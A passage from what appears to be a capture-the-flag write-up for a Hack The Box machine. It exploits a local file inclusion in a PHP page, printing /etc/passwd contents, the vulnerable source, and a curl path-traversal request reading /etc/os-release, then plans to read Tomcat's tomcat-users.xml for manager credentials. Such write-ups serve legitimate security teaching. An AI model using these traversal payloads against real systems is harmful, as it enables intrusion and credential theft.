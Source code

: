 ```
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

We can also read the source code of this page:
http://megahosting.htb/news.php?file=../news.php

```php
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

Let's try to access the tomcat manager of the Tomcat server on prot 8080:
http://10.10.10.194:8080/manager/html

No luck with default credentials, but since we have a LFI we may try to read
the configuration file.

Let's check on which OS we are before.

```
$ curl 'http://megahosting.htb/news.php?file=../../../../../../../etc/os-release'
NAME="Ubuntu"
VERSION="20.04 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

If we search the tomcat package for Ubuntu focal (20.04) we find it's in
[version 9](https://packages.ubuntu.com/search?keywords=tomcat&searchon=names&suite=focal&section=all).

PS: http://megahosting.htb:8080/ also discloses the tomcat version.

The config file storing the manager credentials is
`$CATALINA_HOME/conf/tomcat-users.xml`.

On Ubuntu `$CATALINA_HOME` = `/usr/share/tomcat{x}` where `{x}` is the version
of tomcat eg. 7, 8, 9, etc. Also the config folder is `/etc/tomcat{x}`.
